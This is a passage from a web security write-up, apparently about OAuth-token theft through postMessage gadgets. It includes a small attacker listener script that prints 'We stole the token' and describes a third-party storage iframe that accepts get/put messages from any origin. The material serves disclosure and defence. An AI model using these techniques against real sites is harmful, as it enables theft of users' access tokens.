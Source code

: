     ```html
    <script>
    window.addEventListener('message', function (e) {
     if (e.data) {
         document.getElementById('leak').innerText = 'We stole the token: ' + JSON.stringify(e.data);
     }
    });
    </script>
    ```

## Gadget 3: Using APIs to fetch URL out-of-bounds

![](https://www.baidu.com/favicon.ico) [comment]: <> (![]&#40;https://labs.detectify.com/wp-content/uploads/2022/06/Gadget-3--1024x582.png)

&#x20;

This gadget turned out to be the most fun. There’s something satisfying about sending the victim somewhere and then picking up sensitive data from a different location.

## **Gadget 3: example 1, storage-iframe with no origin check**

The first example used an external service for tracking-data. This service added a “storage iframe”:

```html
<iframe
  id="tracking"
  name="tracking"
  src="https://cdn.customer1234.analytics.example.com/storage.html">
</iframe>
```

The main window would talk with this iframe using postMessage to send tracking-data that would be saved in the localStorage of the origin the `storage.html` was located in:

```javascript
tracking.postMessage('{"type": "put", "key": "key-to-save", "value": "saved-data"}', '*');
```

The main window could also fetch this content:

```javascript
tracking.postMessage('{"type": "get", "key": "key-to-save"}', '*');
```

![](https://www.baidu.com/favicon.ico) [comment]: <> (![]&#40;https://labs.detectify.com/wp-content/uploads/2022/06/gadget3-example1.png)

When the iframe was loaded on initialization, a key was saved for the last location of the user using `location.href`:

```javascript
tracking.postMessage('{"type": "put", "key": "last-url", "value": "https://example.com/?code=test#access_token=test"}', '*');
```
